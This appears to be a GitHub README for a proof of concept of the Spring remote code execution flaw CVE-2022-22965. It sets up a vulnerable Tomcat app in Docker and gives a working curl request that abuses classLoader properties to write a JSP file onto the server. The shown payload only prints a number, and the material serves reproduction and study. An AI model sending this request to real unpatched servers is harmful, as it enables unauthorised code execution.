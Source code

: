 # CVE-2022-22965 PoC

Minimal example of how to reproduce CVE-2022-22965 Spring RCE.

## Build the application using Docker compose
```shell
docker-compose up --build
```

## Test the app
Browse to [http://localhost:8080/handling-form-submission-complete/greeting](http://localhost:8080/handling-form-submission-complete/greeting)

## Run the exploit
```shell
./exploits/run.sh
```

The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.

## Use the exploit
Browse to [http://localhost:8080/handling-form-submission-complete/rce.jsp](http://localhost:8080/handling-form-submission-complete/rce.jsp)


# Alternative way

## 1. Run the Tomcat server

```shell
docker run -p 8888:8080 --rm --interactive --tty --name vm1 tomcat:9.0
```

_Add `-p 5005:5005 -e "JAVA_OPTS=-Xdebug -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"` if you want to debug remotely._

## 2. Build the project

```shell
./mvnw install
```

## 3. Deploy the app

```shell
docker cp target/handling-form-submission-complete.war vm1:/usr/local/tomcat/webapps
```

## 4. Write the exploit

```shell
curl -X POST \
  -H "pre:<%" \
  -H "post:;%>" \
  -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}iSystem.out.println(123)%{post}i' \
  -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
  -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/handling-form-submission-complete' \
  -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=rce' \
  -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
  http://localhost:8888/handling-form-submission-complete/greeting
```

The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.

## Use the exploit

```shell
curl http://localhost:8888/handling-form-submission-complete/rce.jsp
```

Now you'll see `123` in the container's terminal.



The PoC based on https://gist.github.com/esell/c9731a7e2c5404af7716a6810dc33e1a
# spring-bean
